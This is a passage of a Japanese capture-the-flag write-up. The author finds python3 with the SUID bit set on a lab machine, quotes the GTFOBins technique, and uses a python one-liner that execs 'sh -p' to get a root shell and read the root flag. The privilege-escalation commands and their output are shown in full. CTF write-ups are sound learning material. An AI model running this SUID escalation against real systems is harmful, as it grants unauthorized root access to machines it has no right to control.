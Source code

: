 ```c
/snap/core18/2812/usr/bin/newgrp
/snap/core18/2812/usr/bin/passwd
/snap/core18/2812/usr/bin/sudo
/snap/core18/2812/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2812/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/fusermount3
/usr/bin/umount
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/python3.12
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
明らかに怪しい`python`があるでねーか。  
・・・とはいうものの`python`コマンドでどうやってrootになるんかな？  
pythonでなんか書けってか？それともインタラクティブでなんかできるってか？  
そんな内容ならちょっと手詰まりかもしれんと思いながら、`Google`でちょっと調べてみたら、`GTFOBins`に丁度よくあった！！  
>スイド
バイナリに SUID ビットが設定されている場合、昇格された権限は削除されず、ファイル システムにアクセスしたり、SUID バックドアとして特権アクセスをエスカレートまたは維持したりするために悪用される可能性があります。 を実行するために使用される場合、デフォルトのシェルが SUID 権限で実行できるようにする Debian (<= Stretch) などのシステムでは引数をsh -p省略します。-psh
>この例では、バイナリのローカル SUID コピーを作成し、それを実行して昇格された権限を維持します。既存の SUID バイナリと対話するには、最初のコマンドをスキップし、元のパスを使用してプログラムを実行します。  
```c
sudo install -m =xs $(which python) .
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```  
  
翻訳が怪しいが、とりあえずできるか試してみよということで実行  
```c
www-data@ip-172-20-15-115:/var/www/html/usercontents$ python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<on3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'  
# whoami
whoami
root
```
最初、コマンドを`python`で実行したら、コマンドがありませんって怒られたので、`python3`で実行したら以外にも上手くいった。  
あとはいつも通りの検索でflagを探しに行く
```c
# find / -name root.txt 2>/dev/null
find / -name root.txt 2>/dev/null
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
flag{OniTaiji_Is_0ver}
```
  